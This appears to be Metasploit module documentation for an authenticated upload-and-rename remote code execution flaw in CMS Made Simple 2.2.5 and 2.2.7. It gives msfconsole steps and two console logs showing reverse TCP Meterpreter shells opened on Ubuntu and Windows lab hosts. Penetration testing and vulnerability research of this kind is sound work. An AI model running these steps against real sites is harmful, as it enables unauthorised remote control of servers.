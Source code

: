 ## Description

  CMS Made Simple allows an authenticated administrator to upload a file
  and rename it to have a `.php` extension. The file can then be executed
  by opening the URL of the file in the `/uploads/` directory.

  This module has been successfully tested on CMS Made Simple versions
  2.2.5 and 2.2.7.

## Vulnerable Application

[CMS Made Simple v2.2.5](http://dev.cmsmadesimple.org/project/files/6)

## Verification Steps

1. `./msfconsole -q`
2. `use use exploit/multi/http/cmsms_upload_rename_rce`
3. `set username <username>`
4. `set password <password>`
5. `set rhosts <rhost>`
6. `run`

## Scenarios

### CMS Made Simple v2.2.5 on Ubuntu 18.04 (PHP 7.2.7, Apache 2.4.9)

```
msf > use exploit/multi/http/cmsms_upload_rename_rce
msf exploit(multi/http/cmsms_upload_rename_rce) > set username msfdev
username => msfdev
msf exploit(multi/http/cmsms_upload_rename_rce) > set password msfdev
password => msfdev
msf exploit(multi/http/cmsms_upload_rename_rce) > set rhosts 172.22.222.123
rhosts => 172.22.222.123
msf exploit(multi/http/cmsms_upload_rename_rce) > run

[*] Started reverse TCP handler on 172.22.222.194:4444 
[*] Sending stage (37775 bytes) to 172.22.222.123
[*] Meterpreter session 1 opened (172.22.222.194:4444 -> 172.22.222.123:44352) at 2018-07-17 08:41:33 -0500

meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64
Meterpreter : php/linux
meterpreter >
```

### CMS Made Simple v2.2.5 on Windows 10 x64 (PHP 5.6.35, Apache 2.4.33)

```
msf > use exploit/multi/http/cmsms_upload_rename_rce
msf exploit(multi/http/cmsms_upload_rename_rce) > set username msfdev
username => msfdev
msf exploit(multi/http/cmsms_upload_rename_rce) > set password msfdev
password => msfdev
msf exploit(multi/http/cmsms_upload_rename_rce) > set rhosts 172.22.222.175
rhosts => 172.22.222.175
msf exploit(multi/http/cmsms_upload_rename_rce) > run

[*] Started reverse TCP handler on 172.22.222.194:4444 
[*] Sending stage (37775 bytes) to 172.22.222.175
[*] Meterpreter session 1 opened (172.22.222.194:4444 -> 172.22.222.175:49829) at 2018-07-17 08:46:27 -0500

meterpreter > sysinfo
Computer    : WIN10
OS          : Windows NT WIN10 10.0 build 17134 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter >
```
